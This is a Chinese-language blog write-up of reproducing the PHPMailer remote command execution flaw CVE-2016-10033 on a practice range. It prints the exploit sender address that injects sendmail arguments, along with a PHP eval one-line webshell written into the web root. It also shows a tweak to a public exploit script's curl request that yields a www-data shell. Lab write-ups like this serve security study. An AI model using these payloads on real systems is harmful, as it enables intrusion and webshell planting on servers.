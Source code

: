 ```yaml
---
title: "PHPMailer远程命令执行漏洞复现"
categories: [ "安全技术" ]
tags: [ "漏洞利用","RCE","cve" ]
draft: false
slug: "557"
date: "2020-04-07 09:57:00"
---
```


## 0x01 漏洞原理

知识点梳理，靶场复现

漏洞编号：CVE-2016-10033

影响范围：PHPMailer 版本<5.2.18

> PHPMailer 中的 mail 函数在发送邮件时使用了系统 sendmail 方法，由于没有足够过滤使得用户可以注入攻击代码

`PHPMailer`命令执行漏洞（CVE-2016-10033）利用`escapeshellarg`和`escapeshellcmd`两个函数结合使用，导致了单引号逃逸。具体的漏洞分析和利用过程可以通过合天网安的[这个实验][1]进行，但是要价 200 和氏币：

![][2]

## 0x02 靶场复现

先用[墨者靶场][3]复现

打开页面是一个英文网站，拉到底部有个邮件链接：

![][4]

点进去，是个邮件发送界面；

![][5]

Exp：

构造邮箱

```
"attacker\" -oQ/tmp -X/var/www/html/shell.php soapffz"@gmail.com
```

消息：

```
<?php @eval($_POST[a]);?>
```

![][6]

`sendmail -X`参数可以将日志写入指定文件，发送后页面卡住了，但是不要紧，其实一句话木马已经写入了

![][7]

上蚁剑连接：

![][8]

拿到`key`

## 0x03 rce-exp

`exp`[地址][9]，下载后，测试远程目标运行如下命令：

```
./exploit host:port
```

本地测试如下：

```
./exploit localhost:8080
```

默认的`exp`只给两个参数`host`和`port`，本题里面还有目录`mail.php`，简单修改即可：

只需把

```
curl -sq 'http://'$host -H 'Content-Type:
```

中添加你对应的目录即可：

```
curl -sq 'http://'$host/mail.php -H 'Content-Type:
```

![][10]

成功获取到远程`shell`，权限是`www-data`用户

## 0x04 尝试提权

还没。。

本文完。

参考文章：

- [PHP escapeshellarg()+escapeshellcmd() 之殇][11]
- [PHPMailer < 5.2.18 远程命令执行漏洞环境 (CVE-2016-10033)][12]
- [WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)][13]

[1]: http://www.hetianlab.com/expc.do?ec=ECID2117-c828-49a4-89bf-b5f362976166
[2]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_152553.png
[3]: https://www.mozhe.cn/bug/detail/124
[4]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_102314.png
[5]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_102346.png
[6]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_102900.png
[7]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_103007.png
[8]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_103151.png
[9]: https://www.exploit-db.com/exploits/40968
[10]: https://img.soapffz.com/archives_img/2020/04/07/archives_20200407_154542.png
[11]: https://paper.seebug.org/164/
[12]: http://vulapps.evalbug.com/p_phpmailer_1/
[13]: http://vulapps.evalbug.com/w_wordpress_6/